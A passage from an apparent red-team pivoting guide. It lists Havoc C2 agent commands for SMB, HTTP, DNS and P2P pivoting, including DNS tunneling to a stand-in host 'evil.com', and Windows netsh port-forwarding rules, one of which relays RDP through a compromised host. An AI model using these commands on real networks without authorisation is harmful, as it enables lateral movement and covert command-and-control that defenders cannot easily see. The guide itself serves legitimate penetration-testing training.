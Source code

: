 ### 6.4 Advanced Havoc Pivoting Features

```bash
# Named pipe pivoting for same-host lateral movement
demon> pivot smb --pipe-name "msf-pipe" --host target_host

# HTTP(S) tunnel with custom user agent
demon> pivot http --host proxy_host --port 8080 --user-agent "Mozilla/5.0"

# DNS tunneling for covert communication
demon> pivot dns --domain evil.com --server 8.8.8.8

# Session passing between agents
demon> session pass --session-id 2 --pivot-id 1

# Session cloning for redundancy
demon> session clone --session-id 1 --method tcp --host 192.168.1.200

# P2P mesh networking
demon> pivot p2p --enable --port 6666 --peers "192.168.1.100:6666"
```

## 7. Windows-Specific Pivoting Tools
:::note
These sections assume you have administrative privileges on the Windows host. Substitute IP addresses, ports, usernames, and file paths as required by your target environment. Ensure all binaries (e.g., Plink, PowerShell scripts) are accessible on the system.
:::

### 7.1 Netsh Port Forwarding

Windows netsh provides native port forwarding capabilities without requiring additional tools:

```cmd
# Enable IP forwarding
netsh interface ipv4 set global forwarding=enabled

# Add port forwarding rule
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=127.0.0.1 connectport=80 connectaddress=192.168.1.100

# Forward RDP through pivot
netsh interface portproxy add v4tov4 listenport=3389 listenaddress=0.0.0.0 connectport=3389 connectaddress=10.10.10.10

# Show all port forwarding rules
netsh interface portproxy show all

# Delete specific rule
netsh interface portproxy delete v4tov4 listenport=8080 listenaddress=127.0.0.1

# Reset all port forwarding rules
netsh interface portproxy reset

# Advanced rule with specific interface
netsh interface portproxy add v4tov4 listenport=443 listenaddress=192.168.1.100 connectport=443 connectaddress=10.0.0.100
```
